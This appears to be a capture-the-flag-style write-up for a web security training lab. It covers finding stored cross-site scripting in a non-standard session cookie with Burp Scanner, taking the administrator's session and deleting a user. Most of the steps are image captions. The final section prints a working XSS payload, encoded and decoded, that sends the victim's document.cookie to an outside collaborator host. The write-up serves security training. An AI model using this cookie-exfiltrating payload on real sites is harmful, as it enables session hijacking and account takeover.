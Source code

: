 # Scanning non-standard data structures
# Objective
This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.

To solve the lab, use Burp Scanner's Scan selected insertion point feature to identify the vulnerability, then manually exploit it and delete carlos.

You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
|![](Images/image-2.png)|
|:--:| 
| *Non standard session cookie structure* |
|![](Images/image-3.png)|
| *Scan result for selected insertion point - firt part of cookie* |
| *Detectioin of Stored XSS* |

## Exploitation

|![](Images/image-4.png)|
|:--:| 
| *Administrator's session cookie* |
|![](Images/image-5.png)|
| *Deletion of user carlos* |

Final payload:
```
Encoded: '%22%3e%3csvg%2fonload%3dfetch(%60%2f%2fudb24qdmjot50vh8os7mwpvfz65xtphe.oastify.com%2f%24%7bencodeURIComponent(document.cookie)%7d%60)%3e%3a2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
Decoded: '"><svg/onload=fetch(`//udb24qdmjot50vh8os7mwpvfz65xtphe.oastify.com/${encodeURIComponent(document.cookie)}`)>:2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
```